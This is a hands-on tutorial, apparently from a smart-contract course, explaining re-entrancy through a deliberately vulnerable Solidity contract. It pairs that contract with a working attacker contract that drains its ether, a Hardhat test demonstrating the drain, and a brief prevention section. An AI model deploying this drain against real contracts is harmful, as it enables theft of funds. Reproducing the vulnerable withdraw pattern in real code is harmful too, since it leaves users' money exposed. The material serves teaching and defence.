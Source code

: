 # Re-Entrancy

Who wants to do some hacking!!!

---

## What is Re-Entrancy?

- Contract A calls a function in contract B
- Then contract B calls back into contract A while contract A is still processing

This can lead to some serious vulnerabilities in Smart contracts.

## Real World Examples?

[The DAO Attack](https://coinmarketcap.com/alexandria/article/a-history-of-the-dao-hack)

## Requirements

- There will be two contracts: GoodContract and BadContract
- BadContract should be able drain all the Eth out of the GoodContract

## Build

Lets build an example where you can experience how the Re-Entrancy attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

and press `enter` for all the questions.

- Start by creating a new file inside the contracts directory called GoodContract.sol

```go
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract GoodContract {

    mapping(address => uint) public balances;

    /**
        addBalance is used to add ether to the user's balance
     */
    function addBalance() public payable {
        balances[msg.sender] += msg.value;
    }

    /**
        withdraw is used to remove the user's balance of ether
     */
    function withdraw() public {
        require(balances[msg.sender] > 0);
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "Failed to send ether");
        // This code becomes unreachable because the contract's balance is drained
        // before user's balance could have been set to 0
        balances[msg.sender] = 0;
    }
}
```

- GoodContract has two functions

  - addBalance() which adds ether balance for an address
  - withdraw() where users can withdraw all of their balance at once

- Now lets create another file inside the contracts directory known as `BadContract.sol`

```go
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.10;

    import "./GoodContract.sol";

    contract BadContract {
        GoodContract public goodContract;
        constructor(address _goodContractAddress) {
            goodContract = GoodContract(_goodContractAddress);
        }
        // Function to receive Ether. msg.data must be empty
        receive() external payable {
            if(address(goodContract).balance > 0) {
                goodContract.withdraw();
            }
        }
        /**
            attack would start an attack to withdraw all the funds from the
            goodContract
        */
        function attack() public payable {
            goodContract.addBalance{value: msg.value}();
            goodContract.withdraw();
        }
    }
```

- BadContract has two functions

  - contructor which takes in the GoodContract's address and intilializes its own instance of GoodContract
  - recieve() which gets called when contract recieves ethers and msg.data is empty
  - attack() is the function which the user will use to drain all the Eth out of the GoodContract, how it will do so is as follows:
    - Attack will call addBalance, making sure that BadContract's address has some balance in the GoodContract
    - Now it will try calling the `GoodContract` withdraw function which will first check that the BadContract has some balance and then it will send `Eth` equal to BadContract's address balance to the BadContract.
    - This will trigger the recieve function in the BadContract which will again call the withdraw function.
    - Now in the withdraw function because `balances[msg.sender] = 0;` has not been executed yet, the contract still believes that the BadContract's address has balance.
    - So it again sends the Eth equal to the amount of BadContract's balance to BadContract
    - This keeps happening till all the Eth in GoodContract is drained

- Replace all the code in your `hardhat.config.js` with the following code:

  ```javascript
  require("@nomiclabs/hardhat-waffle");

  // This is a sample Hardhat task. To learn how to create your own go to
  // https://hardhat.org/guides/create-task.html
  task("accounts", "Prints the list of accounts", async (taskArgs, hre) => {
    const accounts = await hre.ethers.getSigners();

    for (const account of accounts) {
      console.log(account.address);
    }
  });

  // You need to export an object to set up your config
  // Go to https://hardhat.org/config/ to learn more

  /**
   * @type import('hardhat/config').HardhatUserConfig
   */
  module.exports = {
    solidity: "0.8.10",
  };
  ```

- Now we would write a test to make sure that our BadContract is actually draining all the funds from the GoodContract

- Read [Hardhat Docs for testing](https://hardhat.org/tutorial/testing-contracts.html) before procedding

- Now create a file under the `test` folder named `attack.js`

- Add the following content to `attack.js`

  ```js
  const { expect } = require("chai");
  const { BigNumber } = require("ethers");
  const { ethers, waffle } = require("hardhat");

  describe("Attack", function () {
    it("Should empty the balance of the good contract", async function () {
      // Deploy the good contract
      const goodContract = await ethers.getContractFactory("GoodContract");
      const _goodContract = await goodContract.deploy();
      await _goodContract.deployed();
      console.log("Good Contract's Address", _goodContract.address);
      //Deploy the bad contract
      const badContract = await ethers.getContractFactory("BadContract");
      const _badContract = await badContract.deploy(_goodContract.address);
      await _badContract.deployed();
      console.log("Bad Contract's Address", _badContract.address);
      // Get two addresses
      const [_, addr1, addr2] = await ethers.getSigners();

      // User1 deposits 10 ether into the contract
      let tx = await _goodContract.connect(addr1).addBalance({
        value: ethers.utils.parseEther("10.0"),
      });

      await tx.wait();

      const provider = waffle.provider;

      // Check that at this point the GoodContract's balance is not zero
      let balanceETH = await provider.getBalance(_goodContract.address);
      expect(balanceETH).to.not.equal(BigNumber.from("0"));

      // User calls attack function
      tx = await _badContract.connect(addr2).attack({
        value: ethers.utils.parseEther("1.0"),
      });
      await tx.wait();

      balanceETH = await provider.getBalance(_goodContract.address);
      // Balance of the GoodContract's address is zero know
      expect(balanceETH).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now to finally execute the test, on your terminal type:

  ```
  npx hardhat test
  ```

- If all your tests are passing you have completed the module. Use the GoodContract's Address that was printed on your terminal to verify this level on the website

## Prevention

- Ensure all state changes happen before calling external contracts
- Use function modifiers that prevent re-entrancy

```go
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
```
